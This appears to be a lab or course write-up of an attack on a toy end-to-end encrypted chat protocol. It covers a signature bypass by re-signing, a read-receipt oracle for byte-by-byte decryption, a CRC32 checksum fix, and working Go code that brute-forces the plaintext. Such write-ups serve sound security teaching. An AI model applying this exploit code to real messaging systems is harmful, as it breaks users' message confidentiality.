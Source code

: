 # Attack Sequence

## Pre-conditions

1. User Charlie is sending a message `Hi` to Alice
2. Attacker can intercept the ciphertext in the communication channel
3. Alice runs in headless mode

## Attack sequence

### Signature bypass

1. intercept the message
2. attack creates its' own sigPK, sigSK
3. attacke sends `C1` || `modified C2` and signs with its own sigSK to bypass signature check

### Padding Oracle attack

1. attack sets its username to `charliea`
2. attacker modifies the delimiter `:` (0x3A) and finds the correct byte B to let B(ASCII) xor 0x3A = a(ASCII)
3. attacker sends the modified ciphertext to Alice and receives an error, because Alice can not find the delimiter `:` during the decryption process. To know this error from the attackers perspective, it can not receive a read receipt
4. the attacker starts to decrypt the message one byte at a time
5. the attacker finds the encrypted `enc(H)` and find a byte `B` xor `enc(H)` = `enc(:)`, to find the correct B, try 0000000-1111111 bacause in the ASCII (American Standard Code for Information Interchange) character encoding scheme, there are a total of 128 characters.

```
if the correct B:
To get the value of H based on the given equations, we can rearrange the terms and solve for H.

Given:
B xor enc(H) = enc(:)
enc(H) = K xor H
enc(:) = K xor :

Substituting enc(H) and enc(:) in the first equation:
B xor (K xor H) = K xor :

Using the XOR property (A xor B) xor B = A, we can eliminate K from both sides:
(B xor (K xor H)) xor K = (K xor :) xor K
B xor ((K xor H) xor K) = :

Since (K xor H) xor K = H (due to the XOR property), we get:
B xor H = :

Rearranging to solve for H:
H = B xor :

```

6. the attacker decrypts one byte using `B` xor `:` = `H`
7. create another user `charlieaa` and repeat steps from 2.-6.

### CRC32 fix

1. Use the CRC linear property: CRC(0) xor CRC(X) xor CRC(Y) = CRC(X xor Y)

```
X looks like:
```

2. len(CRC(0)) = max(len(CRC(X), len(CRC(Y)))
3. 0 = hex(0x00, 0x00, ...)
4. X is original plain text(M') = (username || 0x3A || M)
5. We need to find Y such that CRC(0) xor CRC(X) xor CRC(Y) = CRC(X xor Y) which is the correct CRC for the modified cipher text

This is origin C2 Bytes: [139 161 126 121 17 138 58 171 26 101 118 37 236 112 103]
This is new C2 Bytes: [139 161 126 121 17 138 58 240 72 101 118 37 236 112 103]
decrypted message: h
This is origin C2 Bytes: [139 161 126 121 17 138 58 240 72 101 118 37 236 112 103]
This is new C2 Bytes: [139 161 126 121 17 138 58 240 19 54 118 37 236 112 103]
decrypted message: hi

```go=
func performPaddingOracleAttack(ciphertext CiphertextStruct, victimUsername string, username string, privKey PrivKeyStruct) string {
	//Victim2
	SenderUsername := "charlie"
	// Decode the C2 component from base64
	c2Bytes, err := base64.StdEncoding.DecodeString(ciphertext.C2)
	if err != nil {
		fmt.Printf("Failed to decode C2: %v\n", err)
		return ""
	}

	ciphertextLength := len(c2Bytes)

	// Create a slice to store the decrypted plaintext
	plaintext := make([]byte, ciphertextLength-4-len(SenderUsername)-1)

	//Xoring B and initiate to 0
	XoringB := make([]byte, ciphertextLength-4)

	for i := range XoringB {
		XoringB[i] = 0x00
	}

	// maSenderUsernameke delimiter to a
	XoringB[len(SenderUsername)] = 0x5B

	//Index to bruteforce

	// Bruteforce the current character by XORing with 2^7 bits
	modifiedCiphertext := make([]byte, ciphertextLength)
	for i := 0; i < len(plaintext); i++ {
		forceI := len(SenderUsername) + 1 + i
		for j := 0; j < 128; j++ {
			fmt.Println("This is the counter", j)
			copy(modifiedCiphertext, c2Bytes)
			XoringB[forceI] = byte(j)

			//Fixcrc
			modifiedCiphertext = FixCRC(modifiedCiphertext, XoringB)

			fmt.Println("This is the modified ciphertext", modifiedCiphertext)
			// Encode the modified ciphertext back to base64
			modifiedC2 := base64.StdEncoding.EncodeToString(modifiedCiphertext)

			// Create a new replay with the modified C2
			replay := ciphertext
			replay.C2 = modifiedC2

			// Sign the modified ciphertext using Mallory's private key
			replay.Sig = signMessage(replay, privKey)

			// Send the modified ciphertext to Alice
			jsonMessage, err := json.Marshal(replay)
			if err != nil {
				fmt.Printf("Failed to marshal modified ciphertext: %v\n", err)
				continue
			}
			fmt.Println("modified Cipher Text is", string(jsonMessage))
			fmt.Println("Sending to username", username)
			err = sendMessageToServer1(username, victimUsername, jsonMessage, 0)
			if err != nil {
				fmt.Printf("Failed to send message to Alice: %v, sending message to this username %s \n", err, username)
				continue
			}

			// Wait for a short duration (e.g., 100ms) to allow Alice to process the message
			time.Sleep(300 * time.Millisecond)

			// Check if a read receipt was received from Alice
			messageList, err := getMessagesFromServer1(privKey, username)
			if err != nil {
				fmt.Printf("Failed to retrieve messages: %v\n", err)
				continue
			}

			readReceiptReceived := false
			for _, message := range messageList {
				if message.ReceiptID != 0 && message.From == victimUsername {
					readReceiptReceived = true
					fmt.Println("Got a Read Reciept for this j value", j)
					break
				}
			}

			if readReceiptReceived {
				// The current character decrypted to 0x3A (':')
				plaintext[i] = byte(j) ^ 0x3A
				fmt.Println("Found PLaintext: ", string(plaintext[i]))
				XoringB[forceI] = plaintext[i] ^ 0x61
				fmt.Print("Xoring : ")
				fmt.Println(XoringB)
				break
			}
		}
		username = username + "a"
		fmt.Println("New username", username)
		apiKey := ""
		privKey, apiKey = Reregister(username)
		fmt.Println("New API KEY", apiKey)
	}

	return string(plaintext)
}
```
